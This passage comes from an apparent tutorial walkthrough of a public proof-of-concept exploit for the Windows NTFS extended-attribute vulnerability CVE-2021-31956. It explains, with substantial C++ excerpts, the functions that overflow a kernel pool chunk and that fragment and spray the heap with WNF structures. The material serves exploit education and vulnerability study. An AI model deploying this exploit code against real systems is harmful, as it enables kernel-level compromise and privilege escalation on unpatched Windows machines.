



Because the advisory mentioned the vulnerable function is called `NtfsQueryEaUserEaList`, we can make an educated guess and assume that the `NtQueryEaFile` syscall will eventually reach `NtfsQueryEaUserEaList`. The same logic is applied to the `NtSetEaFile` syscall.

Thus, we will see the `overflow_chunk` using the `NtSetEaFile` syscall to create the conditions needed so that the syscall `NtQueryEaFile` can trigger the vulnerability. Now that we know the syscalls needed to invoke the vulnerability, let's examine it's usage within the `overflow_chunk` function starting with the function definition: 

```cpp
NTSTATUS overflow_chunk(_In_ USHORT overflow_chunk_sz, _In_ char *overflow_data, _In_ USHORT overflow_data_sz)
```

Before discussing the function definition for `overflow_chunk`, let's examine the values used when `overflow_chunk` is called in `main`: 

```cpp
//CVE-2021-31956.h
#define OVERFLOW_DATA "\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00"
#define OVERFLOW_SZ 0x18
```

The `overflow_chunk` function takes in three parameters: 

* `overflow_chunk_sz`: A read-only unsigned short used as the `EaValueLength` value.
* `overflow_data`: A read-only pointer to a character buffer containing the bytes that will overflow into the neighboring data structure. As observed with the `find_chunk` function, this data is set to a series of `0x5000` values used as a magic number. 
* `overflow_data_sz`: A read-only unsigned short that specifies the size of the `memcopy` used to overflow the buffer.

Now that we have defined how the input parameters are used by `overflow_chunk`, we will now discuss the variable definitions found in the function: 

```cpp
NTSTATUS                    status = STATUS_SUCCESS;
HANDLE                      file = INVALID_HANDLE_VALUE;
IO_STATUS_BLOCK             x = { 0 };
FILE_FULL_EA_INFORMATION    *fetched_data = zalloc(0x300);
FILE_GET_EA_INFORMATION     *vuln_selector = zalloc(0x300);
FILE_GET_EA_INFORMATION     *vuln_selector2;
FILE_FULL_EA_INFORMATION    *payload = zalloc(0x300);
FILE_FULL_EA_INFORMATION    *overflow;
```

Let's now examine each variable in-depth: 

* `status`: A variable returned after function execution of type `NTSTATUS` initialized to `STATUS_SUCCESS`.
* `file`: A handle to the file whose Extended Attributes will be exploited.

Before examining `x`, let's first review what an `IO_STATUS_BLOCK` datatype is. According to Microsoft, 

> A driver sets an IRP's I/O status block to indicate the final status of an I/O request, before calling IoCompleteRequest for the IRP.

Thus, with this in mind, `x` is first initialized to `0` from which its reference will be passed to both `NtSetEaFile` and `NtQueryEaFile`. 

Let's now examine the `fetched_data` variable. According to NTInternals, 

> `NtQueryEaFile` is used to read `EA` from `NTFS` file

Let's examine the type definition for `NtQueryEaFile`'s function prototype Y3A used in `CVE-2021-31956.h`: 

```cpp
typedef NTSTATUS(*NQEF)(
    HANDLE           FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID            Buffer,
    ULONG            Length,
    BOOLEAN          ReturnSingleEntry,
    PVOID            EaList,
    ULONG            EaListLength,
    PULONG           EaIndex,
    BOOLEAN          RestartScan
    );
```

With this definition in mind, let's look to see how `fetched_data` is used in `overflow_chunk`: 

```cpp
NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
```

We see `fetched_data` is a pointer to `Buffer`, were according to NTInternals, `Buffer` is defined as,

> Caller's allocated buffer for output data.

However, in the context of our exploit, we will not use `fetched_data` after it is called. The focus of the exploit is to use `NtQueryEaFile` to overflow into the next data structure in memory. 

Let's now examine the variable `vuln_selector`. As with the `fetched_data` variable, this value also appears to be a pointer used in the function call to `NtQueryEaFile`. In the case of `vuln_selector`, it is used as the `EaList` pointer. According to NTInternals, `EaList` is described as: 

> Optional list of FILE_GET_EA_INFORMATION structures containing names of EA

Reviewing the usage of `vuln_selector`, we observe that it is used extensively to access the various properties of the first *Extended Attribute* defined by `EANAME1` and provided in the `FILE_GET_EA_INFORMATION` structure. 

Reviewing the usage of `vuln_selector`, we observe that it is used extensively to access the various properties of the first *Extended Attribute* defined by `EANAME1` and provided in the `FILE_GET_EA_INFORMATION` structure. 

Similar to `vuln_selector`, `vuln_selector2` provides the same functionality except with the target *Extended Attribute* being defined by `EANAME2`. However, it is interesting to note that the pointer for `vuln_selector2` is not allocated any memory initially. However, after being declared, the pointer `vuln_selector2` is then assigned to the next *Extended Attribute* entry at the `NextEntryOffset` offset of `vuln_selector`. 

Now, let's examine the purpose of the `payload` pointer. We see it is of the `FILE_FULL_EA_INFORMATION` structure, which is the same structure as the `fetched_data` variable. However, in this case, it is used to create the payload which will be injected via the `NtSetEaFile` function call. 

Finally, let's examine the purpose of the `overflow` variable. As with both `fetched_data` and `payload`, `overflow` is initialized as a pointer to a `FILE_FULL_EA_INFORMATION` structure. However, in the case of `overflow`, it is not allocated memory and is simply declared. Within the context of the `overflow_chunk` function, `overflow` is used to get the next *Extended Attribute* entry at the `NextEntryOffset` offset of `payload`. 

Now that we have defined the variables used within `overflow_chunk`, let's look at the function's purpose starting with the API call to `CreateFileA`: 

```cpp
file = CreateFileA("c:\\users\\username\\desktop\\placeholder.txt",
    GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL);
```

Since the *ExtendedAttributes* are associated to a file, we first need to create a user-controlled file through the `CreateFileA` API. 

```cpp
if (file == INVALID_HANDLE_VALUE) {
    log_warn("overflow_chunk::_CreateFileA()1");
    goto out;
}
```

If there is an issue with the file's creation, the above `if` statement will catch any error and terminate the function early by going to the `out` portion of `overflow_chunk`. 

```cpp
if (!fetched_data || !vuln_selector || !payload) {
    log_warn("overflow_chunk::zalloc()1");
    goto out;
}
```

Next, we see that if any of the pointer allocations are invalid, the same early termination then occurs. Let's now examine the use of `vuln_selector` after it has been initialized and allocated: 

```cpp
vuln_selector->EaNameLength = (UCHAR)strlen(EANAME1);
memcpy(vuln_selector->EaName, EANAME1, vuln_selector->EaNameLength);
vuln_selector->NextEntryOffset = (ULONG)0xc;
```

Walking through the above code line by line we observe the first line sets the `EaNameLength` of the *ExtendedAttribute* pointed to by `vuln_selector` to the length of the `EANAME1` value. According to `CVE-2021-31956.h` of Y3A's proof-of-concept, this value is set to the string `abc`. Next, a `memcopy` is performed copying `EANAME1` to `EaName` with length `EaNameLength`. Finally, the `NextEntryOffset` is set to `0xC`, which then allows `vuln_selector2` to obtain the next *ExtendedAttribute* structure. 

```cpp
vuln_selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)vuln_selector + (UINT64)(vuln_selector->NextEntryOffset));
vuln_selector2->EaNameLength = (UCHAR)strlen(EANAME2);
memcpy(vuln_selector2->EaName, EANAME2, vuln_selector2->EaNameLength);
vuln_selector2->NextEntryOffset = (ULONG)0x0;
```

The implementation of `vuln_selector2` is similar to `vuln_selector` with one key difference: The first line initializes `vuln_selector2` to the next *ExtendedAttribute* data structure after `vuln_selector`. The second line sets the `EaNameLength` of the *ExtendedAttribute* pointed to by `vuln_selector2` to the length of the `EANAME2` value. According to `CVE-2021-31956.h` of Y3A's proof-of-concept, this value is set to the string `bcd`. Next, a `memcopy` is performed copying `EANAME2` to `EaName` with length `EaNameLength`. Finally, the `NextEntryOffset` is set to `0x0`, which indicates no following *ExtendedAttributes* structures are after `vuln_selector2`.

Next, let's take a look at the implementation of the `payload` pointer within `overflow_chunk`: 

```cpp
payload->Flags = (UCHAR)0x0;
```

First, we observe that the *ExtendedAttribute* flags are set to `0x0`. According to [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_file_full_ea_information), flags are defined as follows: 

> Can be zero or can be set with `FILE_NEED_EA`, indicating that the file to which the EA belongs to cannot be interpreted without understanding the associated extended attributes. 

In our case, since the *ExtendedAttribute* flag member is set to `0x0`, we can assume that the file can be interpreted without needing to understand the associated extended attributes. Next, let's look at `EaNameLength`:

```cpp
payload->EaNameLength = (UCHAR)strlen(EANAME1);
```

According to Microsoft, `EaNameLength` is as follows: 

> The length in bytes of the `EaName` array. This value does not include a null-terminator to `EaName`.

We see the name itself, `EaNameLength`, is rather self explanatory and in it's implementation we see that `EaNameLength` is set to `EANAME`. Referencing back to `CVE-2021-31956.h`, we know that `EANAME1` is set to the string `abc`. Thus, `EaNameLength` would be equal to the length of `EANAME1`.

```cpp
payload->EaValueLength = (USHORT)0x9d;
```

Next, we look at `EaValueLength`. According to Microsoft, `EaValueLength` is: 

> The length in bytes of each EA value in the array.

Unlike the `EANAME1`, `EaValueLength` examines the length of the *ExtendedAttribute*e contents rather than just the name of the *ExtendedAttribute*. In the case of `payload`, the *ExtendedAttribute* value for `EANAME1` is `0x9d.

```cpp
memcpy(payload->EaName, EANAME1, payload->EaNameLength);
```

After the `Flags`, `EaNameLength`, and `EaValueLength` members are set within the `payload` *ExtendedAttribute*, we then proceed to perform a `memcopy`, to `EaName` with the contents of `EANAME1` and the length of `EaNameLength`. 

```cpp
memset(payload->EaName + payload->EaNameLength + 0x1, 'C', payload->EaValueLength);
```

Next, we see that `memset` is then used to set the memory region pointed to at `EaName+EaNameLength+0x1` to all `C` with a length of `EaValueLength`. 

```cpp
payload->NextEntryOffset = (ULONG)((payload->EaNameLength + payload->EaValueLength + 0x3 + 0x9) & (~0x3));
```

Finally, we get to the `NextEntryOffset` member of the `payload` instantiation of the `FILE_FULL_EA_INFORMATION` structure. Let's break down exactly what the offset is calculated to be: 

* First, the `EaNameLength` member is added to the `EaValueLength`.
* Then, the value `0x3` and `0x9` are added. 
* Finally, an AND operation is carried out with the right-hand value being the bitwise NOT of `0x3`. 

We review Y3A's blogpost and notice that Y3A's way of calculating the `NextEntryOffset` is simply translated from the decompiled `NtfsQueryEaUserEaList` as shown below: 

```cpp
HANDLE                      file = INVALID_HANDLE_VALUE;
IO_STATUS_BLOCK             x = { 0 };
FILE_FULL_EA_INFORMATION    *fetched_data = zalloc(0x300);
FILE_GET_EA_INFORMATION     *selector = zalloc(0x300);
FILE_GET_EA_INFORMATION     *selector2;
FILE_FULL_EA_INFORMATION    *eadata1 = zalloc(0x300);
FILE_FULL_EA_INFORMATION    *eadata2;

file = CreateFileA("c:\\users\\chenl\\desktop\\ABC.txt",
    GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL);

selector->EaNameLength = (UCHAR)strlen(EANAME1);
memcpy(selector->EaName, EANAME1, selector->EaNameLength);
selector->NextEntryOffset = (ULONG)0xc;

selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)selector + (UINT64)(selector->NextEntryOffset));
selector2->EaNameLength = (UCHAR)strlen(EANAME2);
memcpy(selector2->EaName, EANAME2, selector2->EaNameLength);
selector2->NextEntryOffset = (ULONG)0x0;

eadata1->Flags = (UCHAR)0x0;
eadata1->EaNameLength = (UCHAR)strlen(EANAME1);
eadata1->EaValueLength = (USHORT)0x9d;
memcpy(eadata1->EaName, EANAME1, eadata1->EaNameLength);
memset(eadata1->EaName + eadata1->EaNameLength + 0x1, 'C', eadata1->EaValueLength);
eadata1->NextEntryOffset = (ULONG)((eadata1->EaNameLength + eadata1->EaValueLength + 0x3 + 0x9) & (~0x3));

eadata2 = (PFILE_FULL_EA_INFORMATION)((UINT64)eadata1 + (UINT64)(eadata1->NextEntryOffset));
eadata2->NextEntryOffset = (ULONG)0x0;
eadata2->Flags = (UCHAR)0x0;
eadata2->EaNameLength = (UCHAR)strlen(EANAME2);
eadata2->EaValueLength = (USHORT)eadata2_chunk_sz;
memcpy(eadata2->EaName, EANAME2, eadata2->EaNameLength);
memcpy(eadata2->EaName + eadata2->EaNameLength + 0x1, eadata2_data, eadata2_data_sz);

_NtSetEaFile(file, &x, eadata1, 0x300);

NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, selector, 0x300, NULL, TRUE);
```

Thus, we also will look at the following excerpt from Y3A's blogpost: 

> The way of calculating NextEntryOffset is taken from the decompiled `NtfsQueryEaUserEaList` above. 0x9 bytes for the size of all the field members excluding actual data, adding 0x3 to ensure the buffer will not shrink when aligning it to 0x4 bytes with a bitwise AND. If we want an integer underflow, `out_buf_length` must be smaller than padding while dealing with the second `Ea` list. The smallest `out_buf_length` we can achieve is 0x1, which is when the size we specified is 1 byte larger than our first `Ea` list. The largest padding size we can achieve is 0x3. Using the values in the code above, a `namelength` of 0x3 and a `valuelength` of 0x9d makes a total size of 0xa0, which is 4-bytes aligned. Adding 0x9 to it gives us 0xa9, which is one byte off. This means upon adding 0x3 as the final calculation, our padding will be exactly 0x3 bytes.

Now that we understand how the `payload` instantiation of `FILE_FULL_EA_INFORMATION` works, let's now examine how exactly the overflow occurs using the `overflow` instantiation of the `FILE_FULL_EA_INFORMATION` data structure:

```cpp
overflow = (PFILE_FULL_EA_INFORMATION)((UINT64)payload + (UINT64)(payload->NextEntryOffset));
```

Here, we see that the `FILE_FULL_EA_INFORMATION` data structure exactly after the `payload` pointer is then assigned to `overflow`. 

```cpp
overflow->NextEntryOffset = (ULONG)0x0;
```

Next, we see that the `NextEntryOffset` is then set to `0x0`, indicating that there are no other entries beyond `overflow`.

```cpp
overflow->Flags = (UCHAR)0x0;
```

As with `payload`, we set the `EaNameLength` member for `overflow` to the length of the *ExtendedAttribute* name, in the case for `overflow`, it's the length of `EANAME2` which is the string `bcd`. 

```cpp
overflow->EaNameLength = (UCHAR)strlen(EANAME2);
```

Next, the input argument `overflow_chunk_sz` is used to set the `EaValueLength`. According to Y3A's proof-of-concept, the value of `overflow_chunk_sz` is `0x18`. This is done to match the second `memcpy` operation for the size of the overflow chunk.

```cpp
overflow->EaValueLength = (USHORT)overflow_chunk_sz;
```

We then see that a `memcpy` operation is performed at `EaName` where the value `EANAME2` is copied of size `EaNameLength`.

```cpp
memcpy(overflow->EaName, EANAME2, overflow->EaNameLength);
```

Finally, we then perform a `memcpy` to overflow the first 0x10 bytes after the next pool header, which equates to 0x20 bytes. 

```cpp
memcpy(overflow->EaName + overflow->EaNameLength + 0x1, overflow_data, overflow_data_sz);
```

We then assign the target `file` the `payload` *ExtendedAttribute*. Before analyzing the arguments used, let's first look at the function prototype for `NtSetEaFile` from [NTInternals](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtSetEaFile.html): 

```cpp
NtSetEaFile(
  IN HANDLE               FileHandle,
  OUT PIO_STATUS_BLOCK    IoStatusBlock,
  IN PVOID                EaBuffer,
  IN ULONG                EaBufferSize
);
```

Now, let's examine the implementation within `overflow_chunk`: 

* `file`: The handle `FileHandle`, in our case set to the file we created at `c:\\users\\chenl\\desktop\\ABC.txt`.
* `&x`: The pointer to the output `IoStatusBlock` structure.
* `payload`: A pointer to the target `EaBuffer`.
* `0x300`: The size of the target `EaBuffer`. 

Let's now look at the call to `NtSetEaFile` in `overflow_chunk`:

```cpp
status = _NtSetEaFile(file, &x, payload, 0x300);
if (!NT_SUCCESS(status)) {
    log_warn("overflow_chunk::_NtSetEaFile()1");
    goto out;
}
```

We move onto the call to `NtQueryEaFile`: 

```cpp
status = _NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
if (!NT_SUCCESS(status)) {
    log_warn("overflow_chunk::_NtQueryEaFile()1");
    goto out;
}
```

As with `NtSetEaFile`, let's examine the function prototype from [NTInternals](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtQueryEaFile.html):

```cpp
NtQueryEaFile(
  IN HANDLE               FileHandle,
  OUT PIO_STATUS_BLOCK    IoStatusBlock,
  OUT PVOID               Buffer,
  IN ULONG                Length,
  IN BOOLEAN              ReturnSingleEntry,
  IN PVOID                EaList OPTIONAL,
  IN ULONG                EaListLength,
  IN PULONG               EaIndex OPTIONAL,
  IN BOOLEAN              RestartScan
);
```

Now, let's examine the implementation within `overflow_chunk`: 

* `file`: The handle `FileHandle`, in our case set to the file we created at `c:\\users\\chenl\\desktop\\ABC.txt`.
* `&x`: The pointer to the output `IoStatusBlock` structure.
* `fetched_data`: A pointer to the output `Buffer`.
* `0xaa`: The length of the buffer in bytes.
* `FALSE`: Do not return a single entry only.
* `vuln_selector`: The list of `FILE_GET_EA_INFORMATION` structures which contain the names of the file's *ExtendedAttributes*.
* `0x300`: The length of the `EaList` in bytes.
* `NULL`: The pointer to the index of the file's *ExtendedAttribute* structure. 
* `TRUE`: Return the first queried *ExtendedAttribute*.

Now that we have examined each and every function call in `overflow_chunk`, let's now look at the cleanup:

```cpp
puts("[+] Overflowed into neighbouring chunk");

out:
if (file && file != INVALID_HANDLE_VALUE)
    CloseHandle(file);

if (fetched_data)
    free(fetched_data);

if (vuln_selector)
    free(vuln_selector);

if (payload)
    free(payload);

return status;
```

We see that we close the file handle and free the memory regions that were used in `overflow_chunk`. 

### The fragment_heap Function

[Return to Top](#table-of-contents)

We start our analysis of the `fragment_heap` function by reviewing the function arguments and return type: 

```cpp
NTSTATUS fragment_heap(_Inout_ PWNF_STATE_NAME statenames, _In_ UINT64 count)
```

The `fragment_heap` function returned an `NTSTATUS` value depending on the success of the function's execution. The first argument, `statenames`, is a modifiable pointer of type `PWNF_STATE_NAME`, whose type definition is below: 

```cpp
typedef struct _WNF_STATE_NAME
{
    ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
```

Next, the variable `count` is a read-only unsigned 64-bit integer which specifies the amount of holes created of size 0xc0 in the heap. Let's now look at the two variable definitions:

```cpp
NTSTATUS    status = STATUS_SUCCESS;
UINT64      counter = 0;
```

First, we see that `status` is of type `NTSTATUS`, the same as the return value for `fragment_heap` and is initialized with the value `STATUS_SUCCESS`. Finally, we have the unsigned 64-bit integer `counter` which is initially set to 0. 

With the variable definitions out of the way, let's review the main body of `fragment_heap`, which is a `for` loop used to iteratively delete WNF structures in the heap:

```cpp
for (int i = 0; i < count; i += 3) {
    // create holes
    status = _NtDeleteWnfStateData(&(statenames[i]), NULL);
    if (!NT_SUCCESS(status)) {
        log_warn("fragment_heap::_NtDeleteWnfStateData()1");
        goto out;
    }

    status = _NtDeleteWnfStateName(&(statenames[i]));
    if (!NT_SUCCESS(status)) {
        log_warn("fragment_heap::_NtDeleteWnfStateData()1");
        goto out;
    }

    statenames[i].Data[0] = 0;
    statenames[i].Data[1] = 0;
    
    counter++;
}
```

The `for` loop iterates by a step of 3 to a maximum value specified through the input parameter `count`. For each iteration, the address of the `statenames` entry at index `i` is provided to both `NtDeleteWnfStateData` and `NtDeleteWnfStateName`. If both calls are successful, the `Data` member at the `i`th index is set to `0` at both the `0` and `1` subindex. The `counter` value is then incremented.

```cpp
printf("[+] Created 0x%llx holes of 0xc0 size in the heap\n", counter * 2);

out:
    return status;
```

Once the loop completes or is terminated, the `status` is then returned to the callee. 

### The spray_heap Function

[Return to Top](#table-of-contents)

The `spray_heap` function is relatively small compared to the other functions we covered, let's go ahead and start its analysis by looking at the function's return type and input arguments: 

```cpp
NTSTATUS spray_heap(_Out_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _In_ char *buf, _In_ UINT64 buf_sz)
```

As expected, the `spray_heap` function returns a `NTSTATUS` value. Looking at the input arguments we see the following: 

* `statenames`: A non-NULL point to a `PWNF_STATE_NAME` buffer.
* `count`: A read-only unsigned 64-bit value used as the upper limit to the heap spray.
* `buf`: A read-only pointer to a character array containing the value for the `Buffer` parameter for `NtUpdateWnfStateData`.
* `buf_sz`: A read-only unsigned 64-bit integer used as the `Length` parameter for `NtUpdateWnfStateData`. 

Let's now examine the two variable declarations used in `spray_heap`:

```cpp
NTSTATUS                status = STATUS_SUCCESS;
SECURITY_DESCRIPTOR     *sd = (SECURITY_DESCRIPTOR *)zalloc(sizeof(SECURITY_DESCRIPTOR));
```

The first declaration for `status` is rather straightforward as its purpose is to return an `NTSTATUS` datatype based on the execution of `spray_heap`. Next, let's look at the pointer `sd`. According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-security_descriptor), 

> The `SECURITY_DESCRIPTOR` structure contains the security information associated with an object. Applications use this structure to set and query an object's security status.

As we will eventually be setting the security descriptor for our call to `NtCreateWnfStateName`, we first need to ensure that our `sd` pointer was successfully allocated in memory: 

```cpp
if (!sd) {
    log_warn("spray_heap::zalloc()1");
    status = STATUS_NO_MEMORY;
    goto out;
}
```

Let's now take a look at the function prototype for `SECURITY_DESCRIPTOR`: 

```cpp
typedef struct _SECURITY_DESCRIPTOR {
  BYTE                        Revision;
  BYTE                        Sbz1;
  SECURITY_DESCRIPTOR_CONTROL Control;
  PSID                        Owner;
  PSID                        Group;
  PACL                        Sacl;
  PACL                        Dacl;
} SECURITY_DESCRIPTOR, *PISECURITY_DESCRIPTOR;
```

Each of these security descriptor members are set within `spray_heap` as shown below: 

```cpp
sd->Revision = 0x1;
sd->Sbz1 = 0;
sd->Control = 0x800c;
sd->Owner = 0;
sd->Group = (PSID)0;
sd->Sacl = (PACL)0;
sd->Dacl = (PACL)0;
```

#### Security Descriptor Members

Based on [Microsoft's documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7d4dac05-9cef-4563-a058-f108abecce1d), let's examine what each means: 

##### Revision

According to Microsoft, `Revision` is: 

> An unsigned 8-bit value that specifies the revision of the `SECURITY_DESCRIPTOR` structure. This field **MUST** be set to one.

Since we are required to set this field to `0x1`, we can just move onto the next member. 

##### Sbz1

According to Microsoft, `Sbz1` is: 

> An unsigned 8-bit value with no meaning unless the *Control RM* bit is set to `0x1`. If the RM bit is set to 0x1, Sbz1 is interpreted as the [resource manager](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/a66edeb1-52a0-4d64-a93b-2f5c833d7d92#gt_a7d0361f-8608-454d-9a52-67d4d181ae09) control bits that contain [specific information](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/11e1608c-6169-4fbc-9c33-373fc9b224f4#Appendix_A_73) for the specific resource manager that is accessing the structure. The permissible values and meanings of these bits are determined by the implementation of the resource manager.

We set this value to `0x0` and as such it has no meaning since the *Control RM* bit is not set to `0x1`. 

##### Control

According to Microsoft, `Control` is: 

> An unsigned 16-bit field that specifies control access bit flags. The *Self Relative* (SR) bit MUST be set when the security descriptor is in self-relative format.

Where the format is: 

|0|1|2|3|4|5|6|7|8|9|10|1|2|3|4|5|
|-|-|-|-|-|-|-|-|-|-|-|-|-|-|-|-|
|SR|RM|PS|PD|SI|DI|SC|DC|SS|DT|SD|SP|DD|DP|GD|OD|

And the bits are defined as:

|Value|Description|
|-|-|
| Self-Relative (SR) | Set when the security descriptor is in self-relative format. Cleared when the security descriptor is in absolute format. |
| RM Control Valid (RM) | Set to 0x1 when the Sbz1 field is to be interpreted as resource manager control bits. |
| SACL Protected (PS) | Set when the SACL will be protected from inherit operations. |
| DACL Protected (PD) | Set when the DACL will be protected from inherit operations. | 
| SACL Auto-Inherited (SI) | Set when the SACL was created through inheritance. |
| DACL Auto-Inherited (DI) | Set when the DACL was created through inheritance. | 
| SACL Computed Inheritance Required (SC) | Set when the SACL is to be computed through inheritance. When both SC and SI are set, the resulting security descriptor sets SI; the SC setting is not preserved. | 
| DACL Computed Inheritance Required (DC) | Set when the DACL is to be computed through inheritance. When both DC and DI are set, the resulting security descriptor sets DI; the DC setting is not preserved. |
| Server Security (SS) | Set when the caller wants the system to create a Server ACL based on the input ACL, regardless of its source (explicit or defaulting). |
| DACL Trusted (DT) | Set when the ACL that is pointed to by the DACL field was provided by a trusted source and does not require any editing of compound ACEs. |
| SACL Defaulted (SD) | Set when the SACL was established by default means. | 
| SACL Present (SP) | Set when the SACL is present on the object. | 
| DACL Defaulted (DD) | Set when the DACL was established by default means. | 
| DACL Present (DP) | Set when the DACL is present on the object. | 
| Group Defaulted (GD) | Set when the group was established by default means. | 
| Owner Defaulted (OD) | Set when the owner was established by default means. | 

In our case, let's take the hexadecimal value `0x800c` and convert it to binary: 

```
1000000000001100
```

Using our bit format table, we see that the following fields are set: 

* Self-Relative
* DACL Defaulted
* DACL Present

According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/secauthz/absolute-and-self-relative-security-descriptors):

> In self-relative format, a security descriptor always begins with a [SECURITY_DESCRIPTOR](https://learn.microsoft.com/en-us/windows/desktop/api/Winnt/ns-winnt-security_descriptor) structure, but the other components of the security descriptor can follow the structure in any order. Instead of using memory addresses, the security descriptor's components are identified by offsets from the beginning of the descriptor. This format is useful when a security descriptor must be stored on disk, transmitted by means of a communications protocol, or copied in memory.

Now that we know the `Control` properties of our Security Descriptor, let's move onto the next member of our `sd` structure.

##### Owner

According to Microsoft, `Owner` is `OffsetOwner` and is defined as : 

> An unsigned 32-bit integer that specifies the offset to the [SID](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/78eb9013-1c3a-4970-ad1f-2b1dad588a25). This SID specifies the owner of the object to which the security descriptor is associated. This must be a valid offset if the OD flag is not set. If this field is set to zero, the `OwnerSid` field MUST not be present.

As per Microsoft's documentation, we see that since the `Owner` flag is set to `0x0`, no further analysis is required except to ensure the `OwnerSid` field is not present. 

##### Group

According to Microsoft, `Group` is `OffsetGroup` and is defined as: 

> An unsigned 32-bit integer that specifies the offset to the SID. This SID specifies the group of the object to which the security descriptor is associated. This must be a valid offset if the GD flag is not set. If this field is set to zero, the `GroupSid` field MUST not be present.

In our proof-of-concept we see that the value `0x0` is cast to the datatype `PSID` before being assigned to the `Group` member. Reviewing the [`AclAPI.h` Windows header](https://github.com/tpn/winsdk-10/blob/master/Include/10.0.14393.0/um/AclAPI.h), we see that the actual structure of `PSID` varies. Thus, simply casting it to `PSID` and relying on the program to set the structure makes sense. In addition, it is also worth noting the same applied to the `PACL` data structure. 

##### Sacl

According to Microsoft, `SACL` is `OffsetSacl` and is defined as: 

> An unsigned 32-bit integer that specifies the offset to the [ACL](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/20233ed8-a6c6-4097-aafa-dd545ed24428) that contains system ACEs. Typically, the system ACL contains auditing ACEs (such as [SYSTEM_AUDIT_ACE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/9431fd0f-5b9a-47f0-b3f0-3015e2d0d4f9), [SYSTEM_AUDIT_CALLBACK_ACE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/bd6b6fd8-4bef-427e-9a43-b9b46457e934), or [SYSTEM_AUDIT_CALLBACK_OBJECT_ACE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/949b02e7-f55d-4c26-969f-52a009597469)), and at most one Label ACE (as specified in section [2.4.4.13](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/25fa6565-6cb0-46ab-a30a-016b32c4939a)). This must be a valid offset if the SP flag is set; if the SP flag is not set, this field MUST be set to zero. If this field is set to zero, the `Sacl` field **MUST** not be present.

In the proof-of-concept, we cast the value of `Sacl` to the `PACL` data structure before assigning it a value of `0x0`. 

##### Dacl

According to Microsoft, `Dacl` is `OffsetDacl` and is defined as: 

> An unsigned 32-bit integer that specifies the offset to the ACL that contains ACEs that control access. Typically, the DACL contains ACEs that grant or deny access to principals or groups. This must be a valid offset if the DP flag is set; if the DP flag is not set, this field MUST be set to zero. If this field is set to zero, the `Dacl` field MUST not be present.

In the proof-of-concept, we cast the value of `Dacl` to the `PACL` data structure before assigning it a value of `0x0`. 

Now that we have reviewed the member assignments of our `SECURITY_DESCRIPTOR` instantiation, let's now examine the calls to both `NtCreateWnfStateName` and `NtUpdateWnfStateData`: 

```cpp
for (int i = 0; i < count; i++) {
    status = _NtCreateWnfStateName(&(statenames[i]), WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, sd);
    if (!NT_SUCCESS(status)) {
        log_warn("spray_heap::_NtCreateWnfStateName()1");
        goto out;
    }

    status = _NtUpdateWnfStateData(&(statenames[i]), buf, buf_sz, 0, 0, 0, 0); // spray 0xc0 sized kernel chunks
    if (!NT_SUCCESS(status)) {
        log_warn("spray_heap::_NtUpdateWnfStateName()1");
        goto out;
    }
}

printf("[+] Sprayed 0x%llx chunks of 0xc0 sized WNF structures\n", count * 2);

out:
if (sd)
    free(sd);

return status;
```

We start with a `for` loop that steps by `0x1` until the maximum value specified by `count` is reached. In the loop, let's first examine the call to `NtCreateWnfStateName`: 

```cpp
status = _NtCreateWnfStateName(&(statenames[i]), WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, sd);
```

Let's look at the function prototype for [`NtCreateWnfStateName`](https://github.com/winsiderss/phnt/blob/master/ntexapi.h): 

```cpp
NTSYSCALLAPI
NTSTATUS
NTAPI
NtCreateWnfStateName(
    _Out_ PWNF_STATE_NAME StateName,
    _In_ WNF_STATE_NAME_LIFETIME NameLifetime,
    _In_ WNF_DATA_SCOPE DataScope,
    _In_ BOOLEAN PersistData,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_ ULONG MaximumStateSize,
    _In_ PSECURITY_DESCRIPTOR SecurityDescriptor
    );
```

Let's now examine each parameter in-context of the implementation within `spray_heap`: 

* `&(statenames[i]`: The memory address of the ith item in the `statenames` array. 
* `WnfTemporaryStateName`: Examining the [function prototype](https://chromium.googlesource.com/external/github.com/DynamoRIO/drmemory/+/refs/heads/master/wininc/ntexapi.h) for `WNF_STATE_NAME_LIFETIME`, we see 4 predefined constants:

```cpp
